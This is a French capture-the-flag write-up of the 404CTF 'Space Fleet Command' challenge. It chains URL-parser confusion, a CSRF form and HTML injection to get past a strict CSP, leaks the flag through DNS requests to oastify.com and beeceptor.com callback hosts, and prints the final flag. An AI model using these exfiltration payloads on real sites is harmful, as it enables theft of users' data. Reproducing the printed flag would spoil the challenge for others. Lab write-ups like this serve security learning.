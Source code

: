 Space Fleet Command 
===============================

On commence par analyser le code de l'application. 

On a un serveur nginx et un serveur web en JS.

Et on a une page pour report un problème, cela ressemble fort à une XSS avec exfiltration de cookie admin.

Cependant il y a un CSP a bypass : 

.. code-block:: javascript

    res.setHeader("Content-Security-Policy", "default-src 'self'; script-src 'none';")

On a une injection dans message : 

Extrait du fichier app.js

.. code-block:: javascript

    app.post('/report', (req, res) => {
    const url = req.body.url;
    if (!url) {
        return res.status(400).send('Missing URL');
    }
    const path = extractPath(url);
    if (!path) {
        return res.render('pages/report', { message: `The URL <i>${url}</i> is not valid.` });
    }
    visit(path, TOKEN, CHALLENGE_HOST)
        .then(() => {
            res.render('pages/report', { message: `The page was visited by our admin. We'll get back to you soon.` });
        })
        .catch((error) => {
            console.error('Error visiting URL:', error);
            res.render('pages/report', { message: `An error occurred while visiting the URL <i>${url}</i>.` });
        });
    });


Fichier reports.ejs : 

.. code-block:: console

    <%- include('../partials/header', { title: 'Report an Issue' }) %>

    <section class="report-form">
    <h2>🛑 Report Incorrect Information</h2>
    <form action="/report" method="POST">
        <label for="shipId">URL of the incorrect spaceship page</label>
        <input id="url" name="url" required />

        <label for="issue">What’s wrong?</label>
        <textarea id="issue" name="issue" rows="5"></textarea>

        <button type="submit">Send Report</button>

        <% if (message) { %>
        <div class="message">
            <%- message %>
        </div>
        <% } %>
    </form>
    </section>

    <%- include('../partials/footer') %>

Mais cela ne semble pas exploitable directement car le bot ne voit pas le message, a moins que.

On sait que url.parse est déprécié :

.. code-block:: console 

    const parsedUrl = url.parse(urlString); //who cares about deprecation anyway

Et surtout on ne vérifie que "http:" et pas "http://"  

.. code-block:: console 

    if (!(parsedUrl.protocol === 'http:' || parsedUrl.protocol === 'https:')) {
                return null;
            } 

- https://fr.claroty.com/team82/research/exploiting-url-parsing-confusion
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf 

Après plusieurs essaies on découvre que : 

- http:a/test ==> http://spacefleetcommand.404ctf.fra/test 
- http:@test.test/a ==> http://spacefleetcommand.404ctf.frt@test.test/a
- http:@ahvce.free.beeceptor.com ==> http://spacefleetcommand.404ctf.frt@ahvce.free.beeceptor.com ==> Connexion sur ahvce.free.beepceptor.com 

On peut donc rediriger le bot sur un endpoint de notre choix. 

A partir de la, on peut exploiter une CSRF pour qu'il utilise lui même /report avec une url invalide mais qui contiendra notre "XSS". 

Notre CSRF : 

.. code-block:: console 

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
        <form action="http://localhost/report" method="POST">
        <input type="hidden" name="url" value="XSS HERE" />
        <input type="hidden" name="issue" value="" />
        <input type="submit" value="Submit request" />
        </form>
        <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
        </script>
    </body>
    </html>

Mais il y a le CSP donc la XSS est impossible, on peut uniquement faire une injection HTML.

A partir de la, on peut faire chercher au bot le flag, et tenter d'exfiltrer le contenu. 

La requête de recherche renvoie 200 si elle trouve un résultat et 404 si elle ne trouve rien.

Ce qu'on a trouvé de mieux : 

https://www.cse.chalmers.se/research/group/security/pdf/data-exfiltration-in-the-face-of-csp.pdf

.. code-block:: console

    <object data="/?q=A" type="text/html" style="display:none">
        <link rel=dns-prefetch" href="//6mt8nq844o86kz6wraswqmhbc2it6mub.oastify.com">
    </object>
    ==> KO  

    <link rel="prefetch" as="stylesheet" href="http://ahvce.free.beeceptor.com/track"/ crossorigin="use-credentials">
    ==> KO

    <meta http-equiv="refresh" content="0;url=https://ahvce.free.beeceptor.com/404"/> 
    ==> fonctionne dans l'injection html pour redirect

    <object data="/?q=FLAG" type="text/html" style="display:none">
    <meta http-equiv="refresh" content="0;url=https://ahvce.free.beeceptor.com/404"/>
    </object>
    ==> KO, redirection dans tous les cas que l'objet se charge ou pas 


    <embed src="/?q=S#ship" type="text/html">
    <meta http-equiv="refresh" content="10;url=https://ahvce.free.beeceptor.com/fallback"/>
    </embed>
    ==> KO, redirection dans tous les cas que l'embed se charge ou pas 


    <base href="https://ahvce.free.beeceptor.com/" target="_blank"> 
    ==> Ok mais inutile si on petu pas forcer soumission du formulaire, pas très utile

On utilise object qui se charge ou ne se charge pas selon le résultat 200 / 404, mais on ne trouve aucun moyen d'obtenir une exfiltration même en dns-prefetch.

On a trouvé ceci, peut être une dernière chance : https://github.com/cure53/HTTPLeaks/blob/main/leak.html

On envoie tout en CSRF au bot 

Voici ce qui permet de faire des requêtes vers l'extérieur malgré la CSP : 

.. code-block:: console

    <link rel="prerender" href="https://d1.ruptvbgpc9grskehzv0hy7pwknqeea2z.oastify.com/d" />
    <link rel="dns-prefetch" href="https://d2.ruptvbgpc9grskehzv0hy7pwknqeea2z.oastify.com/link-dns-prefetch" />
    <link rel="preconnect" href="https://d3.ruptvbgpc9grskehzv0hy7pwknqeea2z.oastify.com/link-preconnect">
    <iframe src="https://d1231.zqtd6z8qv583fo446czyquji3990xqlf.oastify.com/test"></iframe>


Bon maintenant comment forcer son activation ou sa désactivation ? 

On a remarque qu'iframe fait également une requête DNS, donc on va combiner object et iframe : 

.. code-block:: console

    <object data="/?q=404CTF{aa">
        <iframe src="https://a.3pt8qyt4pyvhqi4n5129llz9u00rojc8.oastify.com" loading="lazy">
    </object>

Si pas de requête DNS, alors c'est le bon caractère.

On va donc les tester un par un avec ce CSRF qu'on héberge sur un serveur beeceptor.com, et on envoie le bot dessus grâce à http:@fleetcmd.free.beeceptor.com : 

.. code-block:: console

    <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
        <form action="https://spacefleetcommand.404ctf.fr/report" method="POST">
        <input type="hidden" name="url" value="<object data='/?q=404CTF{a1'><iframe src='https://1.ymo3ntqzmtscnd1i2wz4igw4rvxmljm7b.oastify.com' loading='lazy'></object>" />
        <input type="hidden" name="issue" value="" />
        <input type="submit" value="Submit request" />
        </form>
        <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
        </script>
    </body>
    </html>

Après 1h30 a faire des requêtes, alors qu'on aurait pu automatiser lol, on obtient le flag : **404CTF{a24beb7d0b425ee7}**
